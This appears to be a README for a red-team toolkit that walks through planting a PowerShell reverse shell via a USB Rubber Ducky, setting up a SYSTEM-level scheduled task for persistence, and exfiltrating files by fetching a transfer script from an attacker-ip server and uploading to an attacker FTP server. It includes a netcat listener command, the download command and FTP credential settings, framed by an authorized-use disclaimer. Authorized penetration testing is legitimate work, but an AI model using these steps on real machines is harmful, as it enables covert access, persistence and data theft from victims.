 ⚠️ Disclaimer
This project is created strictly for educational purposes, penetration testing, and red team research in authorized environments only.

Any use of this code outside of a controlled, lawful environment — such as unauthorized access, system exploitation, or malicious deployment — is strictly prohibited and may be illegal.

The author(s) of this project do not endorse or support any illegal activity and assume no responsibility for misuse or damage caused by the use of this tool.

Always obtain explicit written permission before testing any system or network that you do not own.


---

#  Project Execution Flow

This setup consists of two main modules:

1. **Reverse Shell Module** – for gaining initial access and persistence.
2. **File Transfer Module** – for uploading files from the victim system to your own server via FTP.

---

##  Reverse Shell Module

> This module establishes a reverse shell from the victim machine back to the attacker system and ensures it persists across reboots and unlocks.

###  Prerequisite

* Start a Netcat listener on your attacker machine:

```bash
nc -nvlp 1111
```

This sets up a listener on port `1111` to receive the incoming reverse shell connection.

---

### 🔹 Step-by-Step

#### **1. Deploy `L.ps1` using Rubber Ducky**

* Copy the PowerShell reverse shell script `L.ps1` to the **Rubber Ducky** (CIRCUITPY drive).
* Flash the Rubber Ducky with the provided `payload.dd` Ducky Script.
* Plug the Ducky into the target machine. It will:

  * Copy `L.ps1` to `C:\Windows\System32\`
  * Execute it silently using PowerShell
* This establishes a reverse shell connection to your Netcat listener.

---

#### **2. Establish Persistence (Optional but Recommended)**

* On the victim system (via the reverse shell), run the **single-line persistence command** found in the `persistence.ps1` file.
* This command sets up a **scheduled task** that:

  * Runs `L.ps1` on system startup and unlock.
  * Uses **NT AUTHORITY\SYSTEM** privileges.

Once done, you will have a **persistent reverse shell** as SYSTEM — even after reboots or user unlocks.

---

##  File Transfer Module

> This module allows you to transfer files from the victim system to your attacker-controlled FTP server using PowerShell.

###  Prerequisite

* Start a local HTTP server on the attacker machine in the folder where `Transfer.ps1` is located:

```bash
python3 -m http.server 8000
```

---

### 🔹 Step-by-Step

#### **1. Download `Transfer.ps1` to Victim**

From the victim machine (via reverse shell), download the `Transfer.ps1` script using:

```powershell
Invoke-WebRequest -Uri "http://<attacker-ip>:8000/Transfer.ps1" -OutFile "C:\Windows\System32\Transfer.ps1"
```

Replace `<attacker-ip>` with your actual IP address.

---

#### **2. Configure FTP Server**

* Host an FTP server on your machine using tools like `vsftpd`.
* Ensure:

  * The FTP server is running on the port defined in the script (default: `21`).
  * A directory named `uploads` exists on the FTP server.
  * The credentials used in `Transfer.ps1` (username & password) match your server configuration.

---

#### **3. Set Variables in `Transfer.ps1`**

Before executing the script, set the following variables at the top of `Transfer.ps1`:

```powershell
$ftpserver      = "192.168.1.10"
$ftpport        = 21
$ftpusername    = "ftpuser"
$ftppassword    = "password123"
$localfilepath  = "C:\Path\To\Your\Files\File_name"
$remotefilename = "Output_File_Name_you_want_on_the_server" 
```



---

#### **4. Execute the File Transfer**

Run the transfer script from the victim system:

```powershell
& "C:\Windows\System32\Transfer.ps1"
```

This will upload the specified file(s) to your FTP server’s `/uploads` directory.

---